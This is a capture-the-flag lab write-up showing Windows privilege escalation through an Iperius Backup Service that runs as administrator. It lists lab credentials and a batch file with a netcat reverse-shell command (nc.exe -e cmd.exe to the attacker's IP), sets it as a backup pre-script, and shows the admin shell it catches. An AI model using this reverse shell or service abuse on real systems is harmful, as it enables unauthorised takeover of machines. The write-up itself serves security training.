 # They Lost The Plan! 

IP `10.10.149.249`

L: `mcskidy`

P: `Password1`

Protocol: `RDP`

## Users
```cmd
net users
```

```
User accounts for \\THE-GRINCH-HACK

-------------------------------------------------------------------------------
Administrator            Alabaster                DefaultAccount
Guest                    McSkidy                  pepper
Rudolph                  sugarplum                thegrinch
WDAGUtilityAccount
The command completed successfully.
```

## OS version
```cmd
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
```

```
OS Name:                   Microsoft Windows Server 2019 Datacenter
OS Version:                10.0.17763 N/A Build 17763
```


## Installed services
```
wmic service list
```

## Vulnt service
`Iperius Backup Service` is vulnurable. It runs as Admin.

Create new backup. Any source and destination.
On the `Other processes` step we can add programs to run before and after backup.

They will run with Admin privilegues, because `Iperius Backup Service` runs as Admin!

So lets escalate!

### Prepare script

Create `attack.bat` file:

```bat
@echo off

C:\Users\McSkidy\Downloads\nc.exe <YOUR_IP> 8888  -e cmd.exe
```

### Lunch listener
On your machine start listener.

```cmd
nc -nlvp 8888 
```


### Setup
In Iperius set before script to `attack.bat`

Save and run backup.


In couple minutes, in our terminal we should see connection windows cmd prompt!

```bashnc -nlvp 8888 
Listening on 0.0.0.0 8888
Connection received on 10.10.149.249 49823
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Program Files (x86)\Iperius Backup> 
```


# FLAG

```cmd
type C:\Users\thegrinch\Documents\flag.txt
```

